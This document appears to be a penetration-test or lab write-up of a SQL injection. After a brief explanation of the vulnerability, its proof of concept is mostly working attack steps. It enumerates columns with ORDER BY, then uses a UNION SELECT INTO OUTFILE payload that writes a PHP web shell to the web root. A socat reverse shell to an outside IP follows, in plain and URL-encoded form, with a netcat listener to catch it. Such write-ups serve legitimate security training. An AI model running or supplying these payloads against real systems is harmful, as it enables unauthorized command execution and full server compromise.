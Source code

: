 
SQL injection is a security vulnerability that allows attackers to manipulate SQL queries executed by a web application's database.  This vulnerability poses a significant threat to the Confidentiality, Integrity, and Availability (CIA) triad of a system, as it can result in data breaches, unauthorized data disclosure, data manipulation,  and potential system downtime. It may also lead to a full compromise of a system through Remote Code Execution. 


## Proof of Concept {#section-2}

First, the tester manually detected a SQL injection vulnerability by submitting the single quote character `'`   

![](/assets/sql/ERROR.png)   

The tester found an error, which signified a very likely SQL injection vulnerability.
To conduct a more sophisticated `UNION` based attack, the tester proceeded to test out the number of columns that were returned from the original query.
The `UNION` keyword lets the tester execute one or more additional `SELECT` queries and append the results to the original query. This is useful as the tester could include
additional database information and queries of his taste.
```bash
' ORDER BY 1#
' ORDER BY 2#
```
After some trial and error, the tester confirmed that there were two columns from the original query.

![](/assets/sql/column2.png)

With the columns in mind, the tester crafted the following payload to write a PHP webshell payload into the `/var/www/html/tmp/` directory.

```bash
' UNION SELECT null, "<?php system($_GET['cmd']);?>"INTO OUTFILE "/var/www/html/tmp/shell1.php" #
``` 

To establish a reverse shell, the tester utilized the following socat command.
```bash
 socat tcp-connect:192.168.45.180:1234 exec:bash 
``` 
For the server to correctly interpret and transmit the reverse shell, the URL was encoded as the following:
```bash
socat%20tcp-connect%3A192.168.45.180%3A1234%20exec%3Abash
```   
The tester created a  net cat listener to catch  the reverse shell. 
```bash
nc -nlvp 1234 
``` 
